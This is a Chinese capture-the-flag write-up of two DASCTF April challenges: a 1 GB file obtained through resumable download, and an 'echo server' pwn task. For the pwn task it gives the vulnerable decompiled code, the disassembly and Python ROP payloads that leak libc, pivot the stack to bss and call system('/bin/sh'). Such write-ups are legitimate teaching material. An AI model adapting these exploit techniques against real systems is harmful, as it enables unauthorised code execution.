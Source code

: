 # 安恒四月赛

## 6G (50pt)

题目描述：

> 5G都来了，6G还远吗？6G下还需要开会员才能高速下载吗？请提交 DASCTF{} 里的内容。
>
> http://server.zhaoj.in:8888/1GTest.file or http://das.wetolink.com:8888/1GTest.file

题目给的附件是个1G的文件，网速不好就没下，后来听队里有师傅说可以断点下载，就试了一下：

![](http://image.taqini.space/img/20200425141555.png)

新姿势get~

> you can download all files from my [github](https://github.com/TaQini/ctf/tree/master/DASCTF2020/misc/6g)


## echo server (100pt)
- 题目描述：
  
    > echo server
- 题目附件：[test](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/DASCTF2020/pwn/test/test)
- 考察点：rop
- 难度：简单

### 程序分析

获取名字的函数存在缓冲区溢出

```c
int sub_4006D2(){
  unsigned int len; // [rsp+Ch] [rbp-84h]
  char s; // [rsp+10h] [rbp-80h]

  len = 0;
  printf("how long is your name: ");
  __isoc99_scanf("%d", &len);
  printf("and what's you name? ", &len);
  memset(&s, 0, 0x80uLL);
  get_name(&s, len);
  return printf("hello %s", &s);
}
```

### 解题思路
#### ret2text

直接用函数中的`printf`泄漏libc：

```nasm
.text:00000000004006E7      lea     rdi, format     ; "how long is your name: "
.text:00000000004006EE      mov     eax, 0
.text:00000000004006F3      call    _printf
.text:00000000004006F8      lea     rax, [rbp+len]
.text:00000000004006FF      mov     rsi, rax
.text:0000000000400702      lea     rdi, aD         ; "%d"
.text:0000000000400709      mov     eax, 0
.text:000000000040070E      call    ___isoc99_scanf
.text:0000000000400713      lea     rdi, aAndWhatSYouNam ; "and what's you name? "
```

用`pop rdi;ret`的gadget把`rdi`设置成`got['printf']`，然后ret到`0x4006EE`这里调用`printf`去泄漏libc

> 调用`printf`的时候`eax`要清零，所以没直接用plt表

```python
# rop1
offset = 136-8
payload = '\0'*offset
payload += p64(elf.bss()+0x800)  # stack-pivot
payload += p64(prdi)+p64(elf.got['printf'])+p64(0x4006EE)+p64(0xdeadbeef)

sla('how long is your name: ','1000')
sla('and what\'s you name? ',payload)
ru('hello ')

printf = uu64(rc(14))
info_addr('printf',printf)
libcbase = printf - libc.sym['printf']
system = libcbase + libc.sym['system']
binsh = libcbase  + libc.search("/bin/sh").next()
```

> 这里要覆盖一下rbp，把栈迁移到bss段（因为函数结尾有leave-ret）

随后还会继续读数据到缓冲区，也就是说仍然存在缓冲区溢出，只不过这次的溢出在bss段

```python
# rop2
offset = 136-8
pl2 = '\0'*offset
pl2 += p64(elf.bss()+0x800)
pl2 += p64(ret)+p64(prdi)+p64(binsh)+p64(system)+p64(0xdeadbeef)

sl('1000')
sla('and what\'s you name? ',pl2)
```

> 用的是`bss+0x800`，因为`system`需要的栈空间比较大，设置小了的话会报错(会跑到只读的data段)

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/DASCTF2020/pwn/test) 


